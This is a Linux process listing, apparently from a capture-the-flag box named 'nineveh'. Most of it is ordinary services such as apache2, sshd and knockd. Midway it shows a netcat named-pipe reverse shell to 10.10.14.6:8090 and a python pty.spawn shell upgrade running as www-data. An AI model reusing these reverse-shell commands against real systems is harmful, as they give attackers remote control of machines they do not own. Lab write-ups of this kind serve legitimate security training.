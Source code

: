 ```sh
[bioset]
[bioset]
[kworker/u2:32]
[kworker/0:1H]
[raid5wq]
[bioset]
[jbd2/sda1-8]
[ext4-rsv-conver]
/usr/sbin/apache2 -k start
/lib/systemd/systemd-journald
[kauditd]
[iscsi_eh]
[ib_addr]
[ib_mcast]
[ib_nl_sa_wq]
[ib_cm]
[iw_cm_wq]
[rdma_cm]
/sbin/lvmetad -f
/lib/systemd/systemd-udevd
/lib/systemd/systemd-timesyncd
/sbin/iscsid
/sbin/iscsid
/usr/lib/snapd/snapd
/usr/sbin/atd -f
/usr/sbin/cron -f
/usr/lib/accountsservice/accounts-daemon
/usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
/usr/sbin/sshd -D
/usr/sbin/acpid
/usr/bin/lxcfs /var/lib/lxcfs/
/usr/sbin/rsyslogd -n
/usr/bin/vmtoolsd
/lib/systemd/systemd-logind
/usr/lib/policykit-1/polkitd --no-debug
/sbin/agetty --noclear tty1 linux
/usr/sbin/knockd -d -i ens33
/sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
/usr/sbin/apache2 -k start
sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 8090 >/tmp/f
cat /tmp/f
/bin/sh -i
nc 10.10.14.6 8090
/usr/sbin/apache2 -k start
python3 -c import pty; pty.spawn("/bin/bash")
/bin/bash
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
[kworker/0:1]
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
[kworker/0:2]
ps -eo command
www-data@nineveh:/report$
```
